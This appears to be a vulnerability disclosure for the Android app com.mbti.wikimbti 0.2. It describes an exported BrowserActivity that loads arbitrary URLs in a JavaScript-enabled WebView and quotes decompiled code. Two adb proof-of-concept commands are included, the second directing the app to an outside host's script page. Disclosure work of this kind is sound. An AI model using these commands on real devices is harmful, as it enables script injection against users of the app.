

com.mbti.wikimbti contains an export component BrowserActivity, which allows an attacker to send a malicious URL and open it directly without any filtering or checking.

- package: com.mbti.wikimbti
- version: 0.2
- url: https://os-android.liqucn.com/rj/9639961891368.shtml

```xml
<activity android:theme="@style/Theme.WikiMbti" android:name="com.mbti.wikimbti.mvvm.browser.BrowserActivity" android:exported="true"/>
```

```java
public final class BrowserActivity extends BaseActivity {
    ...
	public final void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        t6.a C = C();
        String stringExtra = getIntent().getStringExtra("intent_key_url");
        if (stringExtra == null || j.f0(stringExtra)) {
            finish();
            return;
        }
        WikiMbtiWebView wikiMbtiWebView = C.f10000p;
        wikiMbtiWebView.setWebChromeClient(new v6.a(this));
        wikiMbtiWebView.setWebViewClient(new v6.b(this));
        wikiMbtiWebView.loadUrl(stringExtra);
    }
```

poc1:

```shell
adb shell am start -n com.mbti.wikimbti/com.mbti.wikimbti.mvvm.browser.BrowserActivity -e "intent_key_url" "http://ip.42.pl/raw"
```


also,Enabling WebView to use JavaScript can lead to cross-site scripting (XSS) attacks.

```
public final class WikiMbtiWebView extends b {
    /* JADX WARN: 'super' call moved to the top of the method (can break code semantics) */
    public WikiMbtiWebView(Context context, AttributeSet attributeSet) {
        super(context, attributeSet);
        g.e(context, "context");
        WebSettings settings = getSettings();
        settings.setJavaScriptEnabled(true);
        settings.setSupportZoom(true);
        settings.setDefaultTextEncodingName("GBK");
        settings.setUseWideViewPort(true);
        settings.setLoadWithOverviewMode(true);
        settings.setDomStorageEnabled(true);
        settings.setCacheMode(2);
        settings.setTextZoom(100);
        settings.setMixedContentMode(2);
```

poc2:

```shell
adb shell am start -n com.mbti.wikimbti/com.mbti.wikimbti.mvvm.browser.BrowserActivity -e "intent_key_url" "http://21.247.86.44:8000/js.html"
```


